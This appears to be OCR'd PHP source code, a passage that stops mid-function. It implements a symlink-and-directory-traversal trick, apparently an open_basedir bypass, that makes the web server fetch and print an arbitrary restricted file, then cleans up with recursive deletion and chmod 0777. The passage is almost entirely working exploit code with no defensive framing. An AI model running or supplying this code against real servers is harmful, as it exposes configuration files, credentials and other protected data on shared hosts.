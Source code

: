 ```php
$paths = explode('/', $relat_file);
$j = 0;
for ($i = 0; $paths[$i] == '..'; $i++) { 
    mkdir($name);
    chdir($name);
    $j++;
}
for ($i = 0; $i <= $j; $i++) { 
    chdir('..');
}
$tmp = array_fill(0, $j + 1, $name);
symlink(implode('/', $tmp), 'tmplink');
$tmp = array_fill(0, $j, '..');
symlink('tmplink/' . implode('/', $tmp) . $file, $exp);
unlink('tmplink');
mkdir('tmplink');
delfile($name);
$exp = dirname($_SERVER['SCRIPT_NAME']) . "/{$exp}";
$exp = "http://{$_SERVER['SERVER_NAME']}{$exp}";
echo "\n-----------------content---------------\n\n";
echo file_get_contents($exp);
delfile('tmplink');

function getRelativePath($from, $to) {
  // some compatibility fixes for Windows paths
  $from = rtrim($from, '\/') . '/';
  $from = str_replace('\\', '/', $from);
  $to   = str_replace('\\', '/', $to);

  $from   = explode('/', $from);
  $to     = explode('/', $to);
  $relPath  = $to;

  foreach($from as $depth => $dir) {
    // find first non-matching dir
    if($dir === $to[$depth]) {
      // ignore this directory
      array_shift($relPath);
    } else {
      // get number of remaining dirs to $from
      $remaining = count($from) - $depth;
      if($remaining > 1) {
        // add traversals up to first matching dir
        $padLength = (count($relPath) + $remaining - 1) * -1;
        $relPath = array_pad($relPath, $padLength, '..');
        break;
      } else {
        $relPath[0] = './' . $relPath[0];
      }
    }
  }
  return implode('/', $relPath);
}

function delfile($deldir){
    if (@is_file($deldir)) {
        @chmod($deldir,0777);
        return @unlink($deldir);
    }else if(@is_dir($deldir)){
        if(($mydir = @opendir($deldir)) == NULL) return false;
        while(false !== ($file = @readdir($mydir)))
        {
            $name = File_Str($deldir.'/'.$file);
```